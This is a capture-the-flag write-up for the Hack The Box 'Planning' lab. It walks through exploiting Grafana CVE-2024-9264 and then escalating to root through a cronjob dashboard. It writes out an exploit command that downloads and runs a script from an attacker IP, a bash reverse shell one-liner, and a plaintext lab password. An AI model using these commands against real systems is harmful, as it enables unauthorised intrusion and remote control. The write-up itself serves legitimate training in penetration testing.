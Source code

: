 In this writeup we will talk about planning lab which is an easy lab in Hack the box

# nmap

![nmap](images/nmap.png)

with this nmap scan we can see http is open but when you go to the host it says planning.htb so you need to add planning.htb in /etc/hosts file

# enumeration

after going to planning.htb you will notice its just a courses website. but here comes the subdomain enumeration

using ffuf or any subdomain enumeration you will notice theres a grafana.planning.htb

then you will use the provided credentials and you will notice the version of grafana is 11.0.0 which is vulnerable to **CVE-2024-9264**

# **CVE-2024-9264**

this cve is RCE n grafana because of duckdb sqli

git clone it then you will need to make a reverse shell to gain shell

`python3 [CVE-2024-9264.py](http://cve-2024-9264.py/) -u admin -p 0D5oT70Fq13EvB5r -c "wget http://10.10.16.99:8000/rev.sh -O /tmp/rev.sh && chmod +x /tmp/rev.sh && /tmp/rev.sh" [http://grafana.planning.htb](http://grafana.planning.htb/)`

the [rev.sh](http://rev.sh) ⇒

`#!/bin/bash
bash -i >& /dev/tcp/10.10.16.99/9090 0>&1`

then you will gain access.

# privilege escalation

when you gain access you will notice you can type **env** comand

env ⇒ command that displays the environment variables

then you will notice the password of user **enzo** is displayed.

gain access as enzo so you can unlock more approaches

# Enzo

as enzo go for privilege escalation approaches is searchng for cronjobs. so you will notice the crontab.db inside /opt

display it and you will figure out that theres a dashboard for the cronjobs running somewhere

with running `netstat -tupln` you will notice theres something running in port 8000

with **port forwarding** technique you can display that service in your localhost

`ssh -L 8000:127.0.0.1:8000 enzo@planning.htb`

go to 127.0.0.1:8000 and then type the password you gained from the cronjobs db

we now have the cronjobs and can set a new one

set a new one that copies the bash binary into the tmp directory

![image.png](attachment:5d6502ec-de7a-46cd-a24e-fc85d80ad45b:image.png)

from enzo run ./bash -p in the tmp folder and now we are root
